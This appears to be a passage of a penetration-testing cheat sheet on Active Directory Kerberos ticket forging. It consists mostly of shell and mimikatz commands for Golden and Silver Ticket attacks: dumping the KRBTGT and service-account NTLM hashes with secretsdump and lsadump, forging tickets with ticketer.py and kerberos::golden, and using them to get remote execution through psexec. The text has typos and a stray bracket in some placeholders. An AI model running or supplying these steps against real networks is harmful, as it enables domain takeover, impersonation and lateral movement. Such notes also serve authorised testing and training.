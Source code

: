 ```shell

  # if time errpr pr sessoin error (clock skew), then try again
  sudo timedatectl set-ntp off
  sudo ntpupdate -q <domain_controller_ip>
  sudo ntpupdate -u <domain_controller_ip>
  
```

---

### Ticket Forging Attacks (Golden and Silver) (https://www.youtube.com/watch?v=KngApymmV60&list=PLJnLaWkc9xRi71Pso26JlvyBkLUOETLjn&index=8)

```shell
  # Golden Ticket
  # We need: Domain name, Domain SID, NTLM hash of the KRBTGT account, Username we want to impersonate
  ## Get domain SID and KRBTGT NTLM hash, domain sid is leaving the last sequence of numbers

  whoami /user
  pip install impacket
  lookupsid.py "<admin_name>:<admin_password>"@<domain_controller_ip>
  secretsdump.py "<admin_name>:<admin_password>"@<domain_controller_ip> -outputfile krb -user-status # or NTDS.dit
  systeminfo # for the domain

  mimikatz.exe
  privilege::debug
  lsadump::lsa /inject /name:krbtgt

  ## Forge custom TGT
  ticketer.py -nthash <hash> -domain-sid >domain_sid> -domain <domain_name> <username_admin>

  export KRB5CCNAME=<path_to_administrator.ccache_or_username.ccache>
  ticketConverter.py <path_to_administrator.ccache_or_username.ccache> <name_username_admin_name>.kirbi
  klist
  psexec.py -k -no-pass <domain_name>/<admin_name_username>@<target_full_domain> # snchronyze clock also if needed

  
  # Silver Ticket
  # We need: Domain name, Domain SID, SPN of theh service to  attack, NTLM hash of the service account to attack, Privileged Account Certificate (PAC) validation is disabled
  mimikatz.exe
  privilege::debug
  sekurlsa::logonpasswords # get the dc01 or domain controller or other ntlm hash
  kerberos::golden /sid:<domain_did> /target:<domain_controller_name_or_ip> /service:<service_to_account> /rc4:<ntlm_hash_of_service_account> /user:<username_to_impersonate> /id:<random_id>
  klist
```

---